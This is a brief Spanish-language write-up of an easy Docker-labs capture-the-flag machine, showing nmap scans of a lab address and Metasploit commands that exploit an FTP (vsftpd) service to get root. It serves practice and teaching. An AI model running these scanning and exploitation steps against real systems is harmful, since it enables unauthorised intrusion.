

# Firsthacking

Dificultad: Muy Facil
Tecnicas: Searchsploit - msfconsole
Pagina: Docker labs
Estado: Listo

# 

```bash
Lo primero que hacemos es ver q puertos están abiertos 

nmap -p- -—open —min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allport
```



```bash
Luego tiramos unos script basicos y buscamos las versiones de los puertos abiertos 

nmap -p21 -sCV -oN targeted 172.17.0.2
```


```
Vamos a usar msfconsole y searchsploit 

search vsftp
use 1
show options
set RHOSTS $ipvictima
run
```


```bash
Somos root

```